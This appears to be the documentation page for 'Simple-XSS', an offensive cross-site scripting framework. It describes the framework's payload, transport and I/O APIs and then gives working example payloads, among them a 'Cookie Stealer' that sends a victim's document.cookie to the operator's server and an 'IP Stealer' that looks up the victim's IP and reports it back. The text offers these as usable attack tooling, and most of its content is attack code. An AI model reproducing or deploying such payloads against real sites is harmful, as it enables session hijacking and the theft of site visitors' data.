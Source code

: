 # Simple-XSS Payloads

See [payload.](VOCABULARY.md)

## API

### Payload-API

#### Environment

Environment - actual information about running process:

- url - current transport server address (tunneled or not)
- settings - current Simple-XSS settings
- arguments - current Simple-XSS arguments

```python
class Environment:
    url: str = None
    settings: SettingsSchema = None
    arguments: ArgumentsSchema = None
```

#### Dependencies

Payloads have dependencies:

- [transport API](#Transport-API)
- [io API](#IO-API)
- [environment](#Environment)

Dependencies are accessible in payload after binding:

```python
from simplexss.api import BasePayload


class Payload(BasePayload):
    def bind_dependencies(self, **deps):
        self.transport = deps.get('transport')
        self.io = deps.get('io')
        self.environment = deps.get('env')
```

Payload methods that called at a specific time:

- ```def bind_dependencies(self, **deps)``` - called when process is launching to bind dependencies.

- ```def bind_endpoints(self)``` - called when process is launching to bind event handlers (endpoints) to transport.

### Transport-API

See [transport.](VOCABULARY.md)

Transport API is provided for the payload to communicate with client. Every transport should have single Python-side API:

```python
class BaseClient: # depends on Transport Service, but always should inherit Base
    origin: str


class BaseEvent: # depends on Transport Service, but always should inherit Base
    name: str
    data: dict = None


type Endpoint = Callable[[BaseClient, BaseEvent], Coroutine | BaseEvent | any | None] # event handler type


class BaseTransportAPI(ABC):
    @abstractmethod
    def bind_endpoint(self, event: str, endpoint: Endpoint): ... # add event handler

    @abstractmethod
    async def send_event(self, client: BaseClient, event: BaseEvent): ... # send event
```

### Transport-JS-API

Every transport should have single JS-side API:

```js 
const addListener = (event: string, callback) => ... // add event handler

const sendEvent = async (event: string, data: object = {}) => ... // send event
```

Example callback:
```js
const callback = (data: object) => ... // User event handler 
```
### IO-API

An I/O manager is provided for the payload to handle IO operations. It has interface:

```python
class BaseIOManagerAPI(ABC):
    @abstractmethod
    async def print(self, *args, color: Color | str = Color.DEFAULT, sep: str = ' ', end: str = '\n'): ...

    @abstractmethod
    async def input(self, prompt: str, /, *, color: Color | str = Color.DEFAULT): ...
```

## Examples

### IP Stealer

```python
# payload.py

from simplexss.api import (
    BasePayload,
    BaseClient,
    BaseEvent,
    render
)


class Payload(BasePayload):
    AUTHOR = 'crazyproger1'
    DESCRIPTION = 'Steals IP.'
    NAME = 'IP Stealer'
    VERSION = '0.0.1'

    async def on_ip(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'IP: {event.data.get("ip", "unknown")}')

    async def on_connection(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'Connection established: {client.origin}')

    def bind_endpoints(self):
        self.transport.bind_endpoint('connection', self.on_connection)
        self.transport.bind_endpoint('ip', self.on_ip)

    @property
    def payload(self) -> str:
        return render(self.directory, 'payload.js', )
```

```js
// payload.js

fetch('https://api.ipify.org?format=json')
    .then(response => response.json())
    .then(data => sendEvent('ip', {'ip': data.ip}));
```

### Cookie Stealer

```python
# payload.py

from simplexss.api import (
    BasePayload,
    BaseClient,
    BaseEvent,
    render
)


class Payload(BasePayload):
    AUTHOR = 'crazyproger1'
    DESCRIPTION = 'Steals cookies.'
    NAME = 'Cookie Stealer'
    VERSION = '0.0.1'

    async def on_cookies(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'Cookies: {event.data.get("cookies")}')

    async def on_connection(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'Connection established: {client.origin}')

    def bind_endpoints(self):
        self.transport.bind_endpoint('connection', self.on_connection)
        self.transport.bind_endpoint('cookies', self.on_cookies)

    @property
    def payload(self) -> str:
        return render(self.directory, 'payload.js', )
```

```js
// payload.js

sendEvent('cookies', {'cookies': document.cookie})
```

### Alert

```python
# payload.py

from simplexss.api import (
    BasePayload,
    BaseClient,
    BaseEvent,
    render
)


class Payload(BasePayload):
    AUTHOR = 'crazyproger1'
    DESCRIPTION = 'Alerts your message when connection established.'
    NAME = 'Alert'
    VERSION = '0.0.1'

    async def on_connection(self, client: BaseClient, event: BaseEvent):
        await self.io.print(f'Connection established: {client.origin}')

        text = await self.io.input('Text')

        return {
            'name': 'alert',
            'data': {
                'text': text
            }
        }

    def bind_endpoints(self):
        self.transport.bind_endpoint('connection', self.on_connection)

    @property
    def payload(self) -> str:
        return render(self.directory, 'payload.js', )
```

```js
// payload.js

addListener('alert', (data) => alert(data.text))
```